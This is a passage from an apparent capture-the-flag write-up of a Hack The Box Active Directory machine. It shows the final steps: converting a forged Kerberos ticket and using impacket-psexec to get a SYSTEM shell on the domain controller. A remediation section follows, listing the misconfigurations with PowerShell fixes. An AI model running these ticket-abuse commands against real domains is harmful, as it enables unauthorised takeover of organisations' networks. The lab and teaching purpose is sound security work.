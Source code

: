 copy the base64 from the cifs/dc.support.htb to a file locally, remove all whitespace

decode it:
```
base64 -d ticket.kirbi.b64 > ticket.kirbi
```
convert to ccache
```
impacket-ticketConverter ticket.kirbi ticket.ccache
```

Side Note: What is the difference between .kirbi and .ccache file? Microsoft utilizes the kirbi file type and MIT Kerberos observes the ccache format. To use a TGS pulled from a Windows source on a Linux box, you need to convert to ccache format.

use the ticket to authenticate as administrator
```
KRB5CCNAME=ticket.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
```
WHOAMI??

![[Pasted image 20250529153713.png]]


SYSTEM!!

![[Pasted image 20250529153755.png]]


# Remediation

Let's revisit the main components of this chain:
1. Anonymous authentication to SMB share
2. Hard-coding credentials in an exe
3. Leaving a password in the Info field of a user object
4. Allowing GenericAll rights over the DC object for group objects
5. Not changing the default ms-DS-MachineAccountQuota

Possible Remediations:
1. Configure all shares to require authentication:
```
Get-SmbShare
```
It is located in C:\shares\support-tools
```
$acl = Get-Acl "C:\share\support-tools"

$accessRule = New-Object System.Security.AccessControl.FileSystemAccessRule(
    "SUPPORT.HTB\support-tools",
    "FullControl",
    "ContainerInherit, ObjectInherit",
    "None",
    "Allow"
)

$acl.SetAccessRuleProtection($true, $false)
$acl.ResetAccessRule($accessRule)

Set-Acl "C:\share\support-tools" $acl
```
2. Hard-coded credentials: This is not always the worst thing in the world - it just depends on the context. In this context, the ldap user was a member of the default domain user groups. Not the worst thing in the world until you find...
3. Leaving the password in the info field of a user object. Ya don't do that.
4. No users or groups outside of the designated Administrator's groups should have GenericAll rights over the Domain. This ACE should be removed from any groups or users outside of an Administrators group immediately.
5. Change it to 0: